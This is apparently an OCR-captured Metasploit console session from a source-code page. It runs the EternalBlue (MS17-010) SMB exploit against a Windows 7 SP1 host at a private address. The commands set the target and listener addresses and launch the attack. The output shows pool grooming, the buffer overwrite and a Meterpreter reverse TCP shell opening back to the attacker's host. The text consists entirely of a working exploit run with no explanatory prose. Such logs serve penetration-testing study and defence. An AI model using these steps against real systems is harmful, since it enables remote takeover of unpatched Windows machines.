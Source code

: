 ```powershell


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 192.168.11.131
rhosts => 192.168.11.131
msf5 exploit(windows/smb/ms17_010_eternalblue) > set lhost 192.168.11.150
lhost => 192.168.11.150
msf5 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 192.168.11.150:4444 
[*] 192.168.11.131:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.11.131:445    - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.11.131:445    - Scanned 1 of 1 hosts (100% complete)
[*] 192.168.11.131:445 - Connecting to target for exploitation.
[+] 192.168.11.131:445 - Connection established for exploitation.
[+] 192.168.11.131:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.11.131:445 - CORE raw buffer dump (38 bytes)
[*] 192.168.11.131:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 55 6c 74 69 6d 61  Windows 7 Ultima
[*] 192.168.11.131:445 - 0x00000010  74 65 20 37 36 30 31 20 53 65 72 76 69 63 65 20  te 7601 Service 
[*] 192.168.11.131:445 - 0x00000020  50 61 63 6b 20 31                                Pack 1          
[+] 192.168.11.131:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.11.131:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.11.131:445 - Sending all but last fragment of exploit packet
[*] 192.168.11.131:445 - Starting non-paged pool grooming
[+] 192.168.11.131:445 - Sending SMBv2 buffers
[+] 192.168.11.131:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.11.131:445 - Sending final SMBv2 buffers.
[*] 192.168.11.131:445 - Sending last fragment of exploit packet!
[*] 192.168.11.131:445 - Receiving response from exploit packet
[+] 192.168.11.131:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.11.131:445 - Sending egg to corrupted connection.
[*] 192.168.11.131:445 - Triggering free of corrupted buffer.
[*] Sending stage (201283 bytes) to 192.168.11.131
[*] Meterpreter session 1 opened (192.168.11.150:4444 -> 192.168.11.131:49166) at 2020-07-22 07:20:04 -0400
[+] 192.168.11.131:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.11.131:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.11.131:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
meterpreter > 
```
